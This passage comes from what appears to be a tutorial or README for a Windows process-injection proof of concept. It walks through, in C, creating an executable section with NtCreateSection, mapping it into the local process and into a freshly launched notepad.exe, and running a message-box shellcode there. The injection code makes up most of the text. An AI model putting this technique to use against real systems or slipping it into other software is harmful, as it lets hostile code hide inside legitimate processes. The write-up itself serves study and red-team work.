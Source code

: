 Now we create our section. We create it using RWX permissions.  
Please note that this PoC is returning `NTSTATUS` values and not `System Error Codes`. To convert `NTSTATUS` values one could use the `RtlNtStatusToDosError` function.
```C
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)

NTSTATUS ntStatus;
HANDLE hSection = NULL;

ntStatus = pNtCreateSection(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, 
	(PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
if (!NT_SUCCESS(ntStatus)) {
	return ntStatus;
}
```

Then we can proceed to map the section to out local process with RW permissions.
```C
SIZE_T dwReqBufSize = sizeof bMessageboxShellcode64;
PVOID pLocalSectionAddress = NULL;

ntStatus = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalSectionAddress, 0, 0, NULL, &dwReqBufSize, 2, 0, PAGE_READWRITE);
if (!NT_SUCCESS(ntStatus)) {
	return ntStatus;
```

For our target process we are gonna open `notepad.exe` and get its handle.
```C
NTSTATUS ntStatus;
STARTUPINFOA startupInfo;
DWORD dwPid;
HANDLE hProcess;

ZeroMemory(&startupInfo, sizeof startupInfo);
startupInfo.cb = sizeof startupInfo;
ZeroMemory(&processInformation, sizeof processInformation);

if (!CreateProcessA(NULL, "\"notepad.exe\"", NULL, NULL, FALSE,
	DETACHED_PROCESS, NULL, NULL, &startupInfo, &processInformation)) {
	return STATUS_OPEN_FAILED;
}

dwPid = processInformation.dwProcessId;
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid)
```

Now we can also map the section to our target process with RX permissions.
```C
SIZE_T dwReqBufSize = sizeof bMessageboxShellcode64;
PVOID pRemoteSectionAddress = NULL;

ntStatus = pNtMapViewOfSection(hSection, hProcess, &pRemoteSectionAddress, 0, 0, NULL, &dwReqBufSize, 2, 0, PAGE_EXECUTE_READ);
```
